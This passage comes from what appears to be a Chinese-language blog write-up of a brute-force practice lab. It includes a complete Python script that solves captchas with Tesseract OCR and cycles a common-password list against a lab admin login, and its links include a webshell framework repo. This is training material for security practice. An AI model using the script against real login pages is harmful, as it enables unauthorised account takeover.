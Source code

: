 ![][17]

## level-4_hint:突破前端加密

正常测试，先弹一次窗显示输入的用户名和密码：

![][18]

再弹一次窗显示一串字符，抓包显示传送的只是这个`login_key`

![][19]

由于是前端加密，所以我们不能使用`burp`的`intruder`模块爆破

暂时找不到加密文件，先放一放

## level-5_hint:验证码\_OCR 识别

这里都不存在前面的问题，需要使用验证码识别工具识别验证码再一起`post`

### python 脚本

下载[官方安装包][20]，默认安装完，安装路径为:`C:\Program Files (x86)\Tesseract-OCR\tesseract.exe`

`pip`安装库：`pip install pytesseract`

而且验证码有识别失败的情况，每个密码都需要多次实验，直到出现“验证码错误“或者”登陆成功“

全代码如下：

```
import pytesseract
from PIL import Image
import requests
from io import BytesIO

pass_list = open('./10-million-password-list-top-1000.txt',
'r').read().splitlines()
url = 'http://192.168.1.11/BruteForc_test/LoginHigh.php'
for line in pass_list:
while True:
s = requests.session()
pytesseract.pytesseract.tesseract_cmd = 'C:/Program Files (x86)/Tesseract-OCR/tesseract.exe'
response = s.get('http://192.168.1.11/BruteForc_test/yzm.php')
image = Image.open(BytesIO(response.content))
code = pytesseract.image_to_string(image)
data = {
'name': 'admin',
'password': line,
'yzm': code
}
html = s.post(url, data=data) # 进行爆破尝试
print('[[-]error]:{}'.format(line))
if '登陆成功' in html.text:
print('[[+]succeed] password:{}'.format(line))
exit()
if '验证码错误' not in html.text:
break
```


[1]: https://github.com/3sNwgeek/BruteForc_test
[2]: https://github.com/3sNwgeek/awd_worm_phpwebshell_framework
[3]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_140653.png
[4]: https://soapffz.com/462.html#menu_index_5=true
[5]: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
[6]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_140829.png
[7]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141009.png
[8]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141026.png
[9]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141108.png
[10]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141410.png
[11]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141421.png
[12]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_171924.png
[13]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_171914.png
[14]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172453.png
[15]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172515.png
[16]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172535.png
[17]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_180859.png
[18]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_181301.png
[19]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_181617.png
[20]: https://digi.bib.uni-mannheim.de/tesseract/tesseract-ocr-setup-4.00.00dev.exe
[21]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_134932.png
[22]: https://www.lanzous.com/i1z2s3e
[23]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_151726.png
[24]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_151845.png
[25]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152521.png
[26]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152032.png
[27]: https://pan.baidu.com/s/1gxFdk?fid=943060932816851
[28]: https://pan.baidu.com/s/1jGJU2nO?fid=3392384981
[29]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152305.png
[30]: https://t.me/soapffz
[31]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152748.png
[32]: https://github.com/bit4woo/reCAPTCHA/releases/latest
[33]: https://github.com/c0ny1/captcha-killer
[34]: http://gv7.me/articles/2019/burp-captcha-killer-usage/
[35]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_105621.png
[36]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_105630.png
[37]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_110238.png
[38]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_110546.png
[39]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111128.png
[40]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111620.png
[41]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111725.png
[42]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_112922.png
[43]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111934.png
[44]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160513.png
[45]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113155.png
[46]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113514.png
[47]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113404.png
[48]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160657.png
[49]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160731.png
[50]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160743.png
[51]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160902.png
[52]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_162328.png
[53]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_162405.png
[54]: http://www.7ten7.top/2019/09/18/2019-09-18-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E9%9D%B6%E5%9C%BA/
[55]: https://mp.weixin.qq.com/s/2qe1Sx3IV2LHwomMSTacdg
[56]: https://mp.weixin.qq.com/s/lKAp0A4qQuh0JP9qQnPvcg